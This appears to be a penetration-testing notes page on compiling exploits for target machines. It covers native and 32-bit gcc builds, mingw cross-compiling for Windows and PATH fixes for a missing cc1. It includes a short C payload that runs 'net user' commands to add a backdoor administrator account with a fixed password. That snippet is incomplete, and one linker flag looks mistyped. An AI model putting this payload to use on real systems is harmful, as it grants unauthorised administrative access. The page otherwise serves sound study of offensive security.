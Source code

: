 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Compiling

gcc not found on target?  Try:

```bash - target
find / -name gcc -type f 2>/dev/null
```

OR

==Remember you can locally compile if needed!==

64 bit compiling:
```bash - kali
gcc 15285.c -o 15285
```

i686 compiling:
```bash - kali
gcc 15285.c -o 15285 -m32
```

#### Multilib installation
```bash - kali
sudo apt-get install gcc-multilib -y
```

#### Windows cross compiling
![[Pasted image 20211230173000.png]]

```bash - kali
i686-w64-mingw32-gcc exploit.c  -o exploit -lsw2_32
```

```bash - kali
gcc -m32 -Wl,--hash-style=both 9545.c -o 9545
```

Compile code to add new user to administrators:
adduser.c:
```c - kali
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user foobar Pass123 /add");
i = system ("net localgroup administrators foobar /add");
```

```bash - kali
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### cc1 No such file or directory

![[Pasted image 20220220205911.png]]

```bash - target
locate cc1
```
OR
```bash - target
find / -iname cc1 2> /dev/null
```

> /usr/lib/gcc/i686-linux-gnu/5/cc1

Add ```/usr/lib/gcc/i686-linux-gnu/5/``` to PATH

```bash - target
export PATH="/usr/lib/gcc/i686-linux-gnu/5/:$PATH"
```








